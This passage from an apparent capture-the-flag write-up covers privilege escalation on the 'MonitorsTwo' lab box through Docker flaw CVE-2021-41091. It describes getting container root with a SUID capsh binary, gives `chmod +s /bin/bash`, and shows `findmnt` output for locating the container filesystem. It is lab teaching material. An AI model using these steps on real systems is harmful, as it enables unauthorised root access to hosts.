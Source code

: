 This mail gives us 3 CVEs to work with for privilege escalation. The first aren't too important, but the last one is the one which has the most potential. There were a couple POCs released for the particular vulnerability after the box was released (like this, https://github.com/UncleJ4ck/CVE-2021-41091) but I wanted to understand how this worked.  I used the following as reference for this: https://www.rapid7.com/db/vulnerabilities/amazon-linux-ami-2-cve-2021-41091/

The above entry talks about how if a container had an executable file with SetUID, it could be executed by an unprivileged user, due to collision between permissions on the host machine and docker container.

To perform this, we will go back to the container that we just escaped from to try and get a root shell on it. Luckily we have a `capsh` SUID executable with which we can use [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/#suid) to exploit and get a root shell. Once we get a root shell, we can run `chmod +s /bin/bash`  to make `bash` a SetUID executable. 

Now we have to find the subdirectory in which the Docker container's content is, which can be done with a tool like [CDK](https://github.com/cdk-team/CDK) or using a command like `findmnt`. 

```vim
marcus@monitorstwo:~$ findmnt
TARGET                                SOURCE      FSTYPE      OPTIONS
/                                     /dev/sda2   ext4        rw,relatime
├─/sys                                sysfs       sysfs       rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/security              securityfs  securityfs  rw,nosuid,nodev,noexec,relatime
│ ├─/sys/fs/cgroup                    tmpfs       tmpfs       ro,nosuid,nodev,noexec,mode=755
│ │ ├─/sys/fs/cgroup/unified          cgroup2     cgroup2     rw,nosuid,nodev,noexec,relatime,nsdelegate
│ │ ├─/sys/fs/cgroup/systemd          cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,xattr,name=systemd
│ │ ├─/sys/fs/cgroup/cpu,cpuacct      cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,cpu,cpuacct
│ │ ├─/sys/fs/cgroup/rdma             cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,rdma
│ │ ├─/sys/fs/cgroup/freezer          cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,freezer
│ │ ├─/sys/fs/cgroup/cpuset           cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,cpuset
│ │ ├─/sys/fs/cgroup/devices          cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,devices
│ │ ├─/sys/fs/cgroup/hugetlb          cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,hugetlb
│ │ ├─/sys/fs/cgroup/perf_event       cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,perf_event
│ │ ├─/sys/fs/cgroup/net_cls,net_prio cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,net_cls,net_prio
│ │ ├─/sys/fs/cgroup/blkio            cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,blkio
│ │ ├─/sys/fs/cgroup/memory           cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,memory
│ │ └─/sys/fs/cgroup/pids             cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,pids
│ ├─/sys/fs/pstore                    pstore      pstore      rw,nosuid,nodev,noexec,relatime
│ ├─/sys/fs/bpf                       none        bpf         rw,nosuid,nodev,noexec,relatime,mode=700
│ ├─/sys/kernel/debug                 debugfs     debugfs     rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/tracing               tracefs     tracefs     rw,nosuid,nodev,noexec,relatime
│ ├─/sys/fs/fuse/connections          fusectl     fusectl     rw,nosuid,nodev,noexec,relatime
│ └─/sys/kernel/config                configfs    configfs    rw,nosuid,nodev,noexec,relatime
├─/proc                               proc        proc        rw,nosuid,nodev,noexec,relatime
│ └─/proc/sys/fs/binfmt_misc          systemd-1   autofs      rw,relatime,fd=28,pgrp=1,timeout=0,minproto=5,maxproto=5,direct,pipe_ino=16157
│   └─/proc/sys/fs/binfmt_misc        binfmt_misc binfmt_misc rw,nosuid,nodev,noexec,relatime
├─/dev                                udev        devtmpfs    rw,nosuid,noexec,relatime,size=1966928k,nr_inodes=491732,mode=755
│ ├─/dev/pts                          devpts      devpts      rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000
│ ├─/dev/shm                          tmpfs       tmpfs       rw,nosuid,nodev
│ ├─/dev/hugepages                    hugetlbfs   hugetlbfs   rw,relatime,pagesize=2M
│ └─/dev/mqueue                       mqueue      mqueue      rw,nosuid,nodev,noexec,relatime
```